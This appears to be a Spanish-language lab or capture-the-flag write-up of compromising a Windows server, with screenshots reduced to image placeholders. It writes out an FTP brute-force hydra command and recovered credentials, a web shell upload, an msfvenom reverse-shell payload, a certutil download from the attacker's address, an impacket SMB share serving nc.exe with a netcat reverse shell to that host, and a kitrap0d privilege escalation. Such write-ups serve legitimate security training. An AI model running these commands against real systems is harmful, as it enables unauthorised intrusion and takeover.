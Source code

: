 Hacemos el escaneo con nmap:
![[Pasted image 20240624133823.png]]
En el puerto 80 podemos visualizar un servidor de apache:
![[Pasted image 20240624133902.png]]
![[Pasted image 20240624133934.png]]
Intentamos enumerar el puerto 445 pero no tenemos permiso ya que no tenemos credenciales:
```bash
smbclient -L 192.168.0.49
```
![[Pasted image 20240624134259.png]]
Probamos en hacer fuerza bruta al puerto 21, donde usaremos un diccionario específico de usuarios y otro de contraseñas:
```bash
hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-1000000.txt
```
Y encontramos las siguientes credenciales:
```bash
info:PolniyPizdec0211
```
![[Pasted image 20240624134912.png]]
Y estamos dentro:
![[Pasted image 20240624135010.png]]
Una vez dentro, probamos en subir un archivo y vemos que podemos acceder a él desde el navegador:
![[Pasted image 20240624135130.png]]
![[Pasted image 20240624135139.png]]
Probamos en subir un archivo cmdasp.aspx malicioso:
![[Pasted image 20240624135245.png]]
Y vemos que obtenemos ejecución remota de comandos:
![[Pasted image 20240624135315.png]]
Vamos a crear un .exe malicioso para obtener intrusión al servidor:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.50 LPORT=444 -f exe -o shell.exe
```
![[Pasted image 20240624140200.png]]
Lo compartimos con certutil y python:
```bash
certutil -split -urlcache -f http://192.168.0.50/shell.exe
```
Y no tenemos permisos de escritura:
![[Pasted image 20240624140439.png]]
Entonces lo que haremos será alojar en un recurso compartido con impacket el binario de nc.exe:
![[Pasted image 20240624140544.png]]
Nos traemos este binario de netcat al escritorio y desde ahí creamos el recurso compartido:
```bash
impacket-smbserver recurso $(pwd) -smb2support
```
![[Pasted image 20240624140733.png]]
Y ahora desde el servidor ejecutamos lo siguiente, para descargar el binario del recurso compartido y al mismo tiempo enviarnos la reverse shell:
```bash
\\192.168.0.50\recurso\nc.exe -e cmd.exe 192.168.0.50 443
```
![[Pasted image 20240624140916.png]]
Y recibimos la conexión:
![[Pasted image 20240624140933.png]]
En este punto, para escalar privilegios nos enviamos la shell.exe para recibir una sesión de meterpreter y así escalar privilegios con el módulo de local_exploit_suggester, donde pasaremos el escaneo y usaremos el siguiente exploit:
```bash
exploit/windows/local/ms10_015_kitrap0d
```
![[Pasted image 20240624141925.png]]
Lo lanzamos y habremos escalado privilegios:
![[Pasted image 20240624142003.png]]



